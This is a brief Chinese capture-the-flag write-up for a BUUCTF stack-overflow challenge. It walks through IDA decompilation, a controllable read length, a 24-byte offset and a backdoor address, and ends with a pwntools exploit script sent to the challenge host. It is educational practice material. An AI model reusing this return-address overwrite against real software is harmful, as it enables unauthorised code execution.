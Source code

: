 ### Read 栈溢出

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f3ad3d0e0a243d4f25846.jpg)

放入 64 位 IDA 中反编译

注意看 read 函数的第三个参数，它决定我们输入的长度，而这个地址是由 scan 决定的

也就是说长度是我们可控制的

![](https://pic1.imgdb.cn/item/677f3b04d0e0a243d4f258c5.jpg)

看内存可以看到离 ret 差 24 个字节

**dq 占 8 个字节**

![](https://pic1.imgdb.cn/item/677f3b2dd0e0a243d4f2592e.jpg)

找到后门函数

![](https://pic1.imgdb.cn/item/677f65b7d0e0a243d4f27a7b.jpg)

如果看不到地址往前拉一下，Star 就是起始地址

![](https://pic1.imgdb.cn/item/677f65c9d0e0a243d4f27a7d.jpg)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',27664)

payload = b'a' * 24 + p64(0x04006E6)

p.recv()
p.sendline('100')
p.recv()
p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f3bc3d0e0a243d4f25a72.jpg)